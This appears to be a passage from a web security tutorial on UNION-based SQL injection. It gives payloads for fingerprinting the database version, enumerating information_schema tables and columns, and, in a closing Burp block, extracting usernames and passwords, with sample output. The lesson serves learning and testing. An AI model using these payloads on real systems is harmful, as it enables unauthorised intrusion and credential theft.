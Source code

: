 For example, you could use a `UNION` attack with the following input:

```sql
' UNION SELECT @@version--
' union select 'a',@@version#     #for mysql
```

This might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:

```sql
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) 
Mar 18 2018 09:11:49 
Copyright (c) Microsoft Corporation 
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

## Listing the contents of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:

```sql
SELECT * FROM information_schema.tables
```

This returns output like the following:

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE ===================================================== 
MyDatabase    dbo           Products  BASE TABLE 
MyDatabase    dbo           Users     BASE TABLE 
MyDatabase    dbo           Feedback  BASE TABLE
```

This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to list the columns in individual tables:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

This returns output like the following:

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE ================================================================= 
MyDatabase        dbo         Users     UserId       int 
MyDatabase        dbo         Users     Username   varchar 
MyDatabase        dbo         Users     Password   varchar
```

This output shows the columns in the specified table and the data type of each column.

```burp
'+union+select+table_name,NULL+from+information_schema.tables--
'+union+select+column_name,NULL+from+information_schema.columns+where+table_name+=+'users_zkcwhk'--
'+union+select+username_dqppjc,password_puzzmb+from+users_zkcwhk--
```
